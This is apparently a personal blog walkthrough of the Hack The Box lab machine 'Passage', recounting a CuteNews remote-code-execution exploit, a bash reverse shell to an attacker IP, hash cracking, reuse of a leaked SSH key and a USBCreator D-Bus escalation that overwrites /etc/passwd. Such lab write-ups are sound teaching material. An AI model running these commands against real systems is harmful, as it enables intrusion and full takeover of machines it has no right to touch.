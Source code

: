 ![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-11.40.54-AM.png)

IP: 10.10.10.126

More information:

Potential usernames:  
Kim Swift  
Sid Meier  
Paul Coles : paul@passage.htb  
In the blog id=11 is by admin with after hovering over the admin tag it says — nadav@passage.htb

/etc/apt/sources.bak file readable.

## Enumeration

Looking at the webpage we see that it is a cms and the application running is CuteNews.

![](http://vedanttare.com/wp-content/uploads/2022/04/cutenews-webpage.png)

Searching on google we find a rce exploit for it.

![](http://vedanttare.com/wp-content/uploads/2022/04/cutenews-exploit.png)

Running the exploit we get a shell with www-data.

![](http://vedanttare.com/wp-content/uploads/2022/04/execute-rce.png)

Then, using a rev shell payload we get a connection on our machine to run more commands and spawn a pty shell using python.

`kali@starscorp1o:~/htb/active_boxes/passage$ sudo python3 48800.py<br></br>[sudo] password for kali:`

```
       _____     __      _  __                     ___   ___  ___ 
      / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
     / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
     \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                            ___  _________                        
                           / _ \/ ___/ __/                        
                          / , _/ /__/ _/                          
                         /_/|_|\___/___/                          
```

`[->] Usage python3 expoit.py`

`Enter the URL> http://10.10.10.206/`

`Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN`

`7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1<br></br>4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88<br></br>e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd<br></br>f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca`

`4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc`

`=============================`

`Registering a users`

`[+] Registration successful with username: VYbDl6D9sk and password: VYbDl6D9sk`

`=======================================================`

`Sending Payload`

`signature_key: 6ec99478e182f49816cb960348faf43e-VYbDl6D9sk<br></br>signature_dsi: a0ca4b62c742b3e1a5661c1847ba9edb`

`logged in user: VYbDl6D9sk`

`Dropping to a SHELL`

`command > /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9000 0>&1'`

## Privilege Escalation

As we have shell as www-data, now by checking /etc/passwd, we see that we have 2 more users:

- nadav
- paul

Let’s start enumerating the root directory of cutenews. There were a lot of php files present.

![](http://vedanttare.com/wp-content/uploads/2022/04/php-files.png)

After tons and tons of enumeration in multiple files. We found bas64 encoded strings from various php files. One was of nadav user and many others but, we know that there are only 2 users paul and nadav , so we need to find files that have session info of these users. We then get nadav’s and paul’s session files with id, username and a password hash in it.

Now, we try to crack nadav’s hash but it doesnt work.

![](http://vedanttare.com/wp-content/uploads/2022/04/nadav-pass-not-work.png)

 We now try to crack paul’s hash and BOOM!!!…We get a password:  
`atlanta1`

![](http://vedanttare.com/wp-content/uploads/2022/04/paul-pass.png)

Now that we have paul’s password we can just su into that user. We go and grab the user.txt file.

Cracking paul’s password:

![](http://vedanttare.com/wp-content/uploads/2022/04/cracking-pauls-password.png)

p`aul@passage:~$ cat user.txt<br></br>cat user.txt<br></br>0d58c8c9c9701f91c2fb5c850c7c92b4`

Now we have just look around in the home directory by using ls -la to list hidden files and check in .ssh for keys to nadav. We see that id\_rsa.pub shows the public key of nadav but we are in paul’s home directory, so this might mean that they share public and private keys. Checking in id\_rsa for private key we see that there is a private.

![](http://vedanttare.com/wp-content/uploads/2022/04/idrsa.png)

We copy that onto our machine and do chmod 600 and try to login with ssh:

`ssh -i ssh_private_key nadav@10.10.10.206`

![](http://vedanttare.com/wp-content/uploads/2022/04/login-as-nadav.png)

And boom we get a shell as nadav!!!!!!

Now we have to get root. (This is the tough part!)

After looking all over the internet and enumerating the home directory of nadav we see that there is an ibus program and after searching on google we come across one article on whole of google:

`USBCreator D-Bus Privilege Escalation in Ubuntu Desktop`

![](http://vedanttare.com/wp-content/uploads/2022/04/ibus-privesc.png)

D-Bus Privilege Escalation article:

![](http://vedanttare.com/wp-content/uploads/2022/04/article-ibus.png)

This article explains all the steps to get root by abusing the usbcreator application which uses a tool called dd which in turn in used to write to disks using python, but there is no sanitization check as to what and where the file is being written and it also doesn’t ask for the password for sudo program when used.

Hence we use this to get root:  
We overwrite the /etc/passwd file by generating a openssl passwd for root user and placing it in the /etc/passwd file:

`kali@starscorp1o:~/htb/active_boxes/passage$ openssl passwd alice<br></br>wBl9BxxE0AUq6`

![](http://vedanttare.com/wp-content/uploads/2022/04/openssl-pass.png)

Then overwriting the file using the following command given in the article:

`nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/passwd /etc/passwd true<br></br>()`

Command used in the article:

![](http://vedanttare.com/wp-content/uploads/2022/04/command-used-article.png)

Command we used:

![](http://vedanttare.com/wp-content/uploads/2022/04/ibus-command.png)

/`etc/passwd` file has been overwritten:

![](http://vedanttare.com/wp-content/uploads/2022/04/etcpasswd-overwrite.png)

The parenthesis is not included in the command it is displayed after the command is executed. And we just su to root:

`nadav@passage:~$ su root<br></br>Password:<br></br>root@passage:/home/nadav# id<br></br>uid=0(root) gid=0(root) groups=0(root)<br></br>root@passage:/home/nadav# whoami<br></br>root<br></br>root@passage:/home/nadav# hostname<br></br>passage<br></br>root@passage:/home/nadav# id<br></br>uid=0(root) gid=0(root) groups=0(root)`

![](http://vedanttare.com/wp-content/uploads/2022/04/got-the-root.png)

And BOOM!! We get root!!!!

Now, we can grab the user flag:

![](http://vedanttare.com/wp-content/uploads/2022/04/user-flaggg.png)

Hence we can grab the root flag:

`root@passage:~# cat root.txt<br></br>67ab751857e4be0ad3f2186c9b6f4164`

![](http://vedanttare.com/wp-content/uploads/2022/04/check-root-flag.png)

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Postman](https://vedanttare.com/hackthebox-postman/)

<iframe class="wp-embedded-content" data-secret="rUO077kPM8" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-postman/embed/#?secret=NDOo3RZ5ZQ#?secret=rUO077kPM8" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Postman” — VEDANT TARE" width="600"></iframe></div></figure>
